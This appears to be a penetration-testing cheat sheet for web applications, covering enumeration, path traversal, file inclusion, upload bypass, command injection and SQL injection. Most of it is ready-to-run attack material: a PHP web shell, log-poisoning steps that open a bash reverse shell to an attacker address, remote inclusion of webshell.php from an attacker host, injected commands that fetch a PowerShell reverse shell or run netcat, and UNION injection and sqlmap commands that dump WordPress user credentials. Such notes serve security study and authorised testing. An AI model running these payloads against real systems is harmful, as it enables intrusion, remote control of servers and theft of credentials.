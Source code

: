 ## Table of contents
- [Web Application Enumeration](#Web-Application-Enumeration)
- [Directory Enumeration](#Directory-Enumeration)
- [Path Traversal](#Path-Travesal)
- [Local File Inclusion](#Local-File-Inclusion)
- [Remote File Inclusion](#Remote-File-Inclusion)
- [File Upload](#File-Upload)
- [Command Injection](#Command-Injection)
- [SQL Injection](#SQL-Injection)

# Web Application Enumeration

| Tool / Resources                | Description                       |
|---------------------------------|-----------------------------------|
| https://www.wappalyzer.com      | Technology lookup                 |
| https://www.shodan.io/host/$IP  | Technology lookup and server informations |
| https://medium.com/api-center/api-bites-7373b2127ed1 | API path conventions |
| https://gist.github.com/yassineaboukir/8e12adefbd505ef704674ad6ad48743d | Fuzzing wordlist |
| whatweb                         | Web Server Enum.                  |
| wafw00f                         | WAF detection tool                |

``` bash
# Web Server Enumeration
nc $TARGET 80
telnet $TARGET 80
sudo nmap -p80,443 -sV $TARGET
sudo nmap -p80,443 -sS --script=http* $TARGET
sudo nmap -p80 --script=http-enum $TARGET
sudo nmap -p80 --script=http-enum --script-args http-enum.basepath="$PATH" $TARGET
```

# Directory Enumeration

Interesting files:
``` bash
curl https://$URL/robots.txt              # check robots file
curl https://$URL/security.txt            # check security file
curl https://$URL/.well-know/security.txt # check security file
```

Derectory searching:
``` bash
gobuster dir -u {TARGET} -w /usr/share/wordlists/...
gobuster dir -u {TARGET} -w /usr/share/wordlists/... -p pattern.txt # create a file "pattern.txt" and use the {GOBUSTER} placeholder: {GOBUSTER}/v1 {GOBUSTER}/v2
gobuster dir -u {TARGET} -w /usr/share/wordlists/... -x $EXT # search for extension
feroxbuster --url {TARGET} --depth 2 --wordlist /usr/share/wordlists/... --rate-limit REQUESTS_PER_SECOND # rate limit useful for Error 429: many requests
```

API discorevy:
``` bash
curl -i https://$URL/test/v1/item                                   # check API method
curl -G -d "param1=value1" $URL                                     # GET
curl -X PUT -d '{"test"}' -H "Content-Type: application/json" $URL  # PUT
curl -d '{"param1":"val1", "param2":"val2"}' -H "Content-Type: application/json" $URL # test API method
curl -d "param1=value1&param2=value2" -X POST $URL # default application/x-www-form-urlencoded
curl -d "param1=value1&param2=value2" -H "Content-Type: application/x-www-form-urlencoded" -X POST $URL # explicit application/x-www-form-urlencoded
curl -d "@data.txt" -X POST $URL # data file
```

# Path Traversal

Example:
``` bash
curl http://www.target-site.net/path/../../../../etc/passwd # relative path
curl http://www.target-site.net/index.php?image=/etc/passwd # absolute path
curl http://www.target-site.net/path/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd  # url encoding "../"
```

Test script:
``` python
# usege: python3 $scriptname http://$IP/path/for/app/ 10 /tmp/test.txt
import sys, subprocess

url = sys.argv[1] # URL target
max_iteration = int(sys.argv[2])+1 # deep
filetocheck = sys.argv[3]
elements = ['../', '%2e%2e/', '%2e%2e%2f', '..%2f', '..%c0%af'] # extend

for element in elements:
  for i in range(1, max_iteration):
    path = element*i
    curl_command = ["curl", "{0}{1}{2}".format(url, path, filetocheck)]
    res = subprocess.run(curl_command, capture_output=True, text=True)
    print("Check for {0}{1}{2}".format(url, path, filetocheck))
    print(res.stdout)
```

# Local File Inclusion

Include some content on the application page to execute it. For example, inject a PHP code snippet into the Apache log file within an application that reads the file directly from the file system.
``` php
<?php echo system($_GET['cmd']); ?>
```

If the application reads the Apache log, you can try sending a command.
``` bash
curl http://www.target-site.net/index.php?x=page.php -A "TEST" # change User-agent
curl http://www.target-site.net/index.php?x=../../../../var/log/apache2/access.log&cmd=pwd # send command pwd
curl http://www.target-site.net/index.php?x=../../../../var/log/apache2/access.log&cmd=ls%20-la # encode the space char "ls -al"
```

Use this technique to one a reverse shell:
``` bash
# create a listener
nc -nvlp 1337

# send the reverse shell command
curl http://www.target-site.net/index.php?x=../../../../var/log/apache2/access.log&cmd=bash -c "bash -i >& /dev/tcp/$ATTACKER/1337 0>&1" # not encoded
curl http://www.target-site.net/index.php?x=../../../../var/log/apache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.1%2F4444%200%3E%261%22 # encoded, change the IP address
```

Change the User-Agent value via Burp Suite repeater (example):
```
GET /index.php?x=page.php HTTP/1.1
Host: target-site.net
User-Agent: Mozilla/5.0 <?php echo system($_GET['cmd']); ?>
```

Read the content of PHP page via php://filter:
```
curl http://$IP/index.php?page=php://filter/convert.base64-encode/resource=page.php
```

# Remote File Inclusion

``` bash
curl http://www.target-site.net/index.php?page=http://attacker-site.net/webshell.php&cmd=ls # simple command
curl http://www.target-site.net/index.php?page=http://attacker-site.net/webshell.php&cmd=cat+/home/user/.ssh/authorized_keys # read content
curl http://www.target-site.net/index.php?page=http://attacker-site.net/reverse-shell.php # include a reverse shell command
```

# File Upload

Bypass file upload policies.
Via BurpSuite, edit the content and modify the extension from .php to .PHP (or other valid extension):
```
Content-Disposition: form-data; name="fileToUpload"; filename="php-backdoor.PHP"
Content-Type: application/x-php
```

Send command via curl
```
curl "http://$IP/path/uploads/simple-backdoor.PHP?cmd=dir"
```

# Command Injection

Use separatons to send multiple command in a single line:
```
git version; pwd
```

Use local command to upload file on target system:
``` bash
# open a local web server
python -m http.server $PORT

# open a listener
nc -lnvp 1337

# use the vulnerable field to send a command (es: ARCHIVE)
curl -X POST --data 'ARCHIVE=git+version%3b+Invoke-WebRequest+http://$ATTACKER_IP/rev-shell.ps1+-OutFile+reb-shell.ps1' http://$TARGET/page-with-post-action

# execute a reverse shell in linix with netcat (if present)
$ curl -X POST --data 'ARCHIVE=git version%3b nc -c sh $ATTACKER_IP $PORT' http://$TARGET/page-with-post-action
```

# SQL Injection

Error based payload:
``` sql
-- example query
select * from users where username = '$USERNAME' and password = '$PASSWORD';

-- if $USERNAME value is test'
select * from users where username = 'test'' and password = '$PASSWORD'; -- syntax error for character '

-- concatenate command
select * from users where username = 'test' OR 1=1 in (select @@version) -- // 
select * from users where username = 'test' OR 1=1 in (select * from users) -- // 

-- UNION SELECT in POST field
item=VALUE' UNION SELECT null, null, null, database(), user(), @@version -- //

-- not all data can be printable, change position to print other fields
item=VALUE' UNION SELECT null, null, null, user(), database(), @@version -- //

-- get info from information-schema
item=VALUE' UNION SELECT null, null, null, user(), table_name, @@version from information_schema.columns where table_schema=database() -- //
item=VALUE' UNION SELECT null, null, null, user(), column_name, @@version from information_schema.columns where table_schema=database() -- //
item=VALUE' UNION SELECT null, null, null, user(), table_schema, @@version from information_schema.columns where table_schema=database() -- //
```

Blind:
``` sql
' AND 1=1 -- //
' AND IF (1=1, sleep(3),'false') -- //
```

SQLmap:
``` bash
# -p flag specify parameter to test
sqlmap -u $URL -p $PARAM

# db dump
sqlmap -u $URL -p $PARAM --dump

# Example
sqlmap --url "https://$TARGET/?s=1" -p s --dump
sqlmap --url "https://$TARGET/wp-admin/admin-ajax.php?action=get_question&question_id=1 *" -p question_id --answers="follow=y" --batch -v 0 --dbms mysql --dump -T wp_users -C user_login,user_pass --ignore-code 404 # exploit for WP
```